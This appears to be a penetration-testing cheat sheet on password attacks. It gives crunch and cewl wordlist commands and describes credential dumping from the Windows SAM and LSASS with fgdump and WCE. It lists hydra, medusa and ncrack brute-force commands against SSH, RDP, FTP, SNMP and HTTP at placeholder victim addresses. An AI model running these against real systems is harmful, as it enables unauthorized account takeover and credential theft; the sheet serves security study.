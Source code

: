 ## Password file generator

### crunch: is a wordlist generator where you can specify a standard character set or a character set you specify.
##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
 #### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
 #### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***

### Password Profiling
##### cewl
  ***cewl <victim_www_url> -d [num] -m [num] -w [file.txt]***
  
### Online password attacks

#### HTTP Brute force attack
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP Brute force attack
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP Brute force attack
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH Brute force attack
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP Brute force attack
- hyrda -L [user_file] -p [password] [victim_ip] ftp

### Usefull flag
-vV : verbose mode
-e nsr : login as password or login as password in reversed order etc
-t : threads

### Password Hash Attack
#### Hash identifier
  ***- hash-identifier ***
 - usage: hash-identifier

#### John the ripper

### Pass the hash
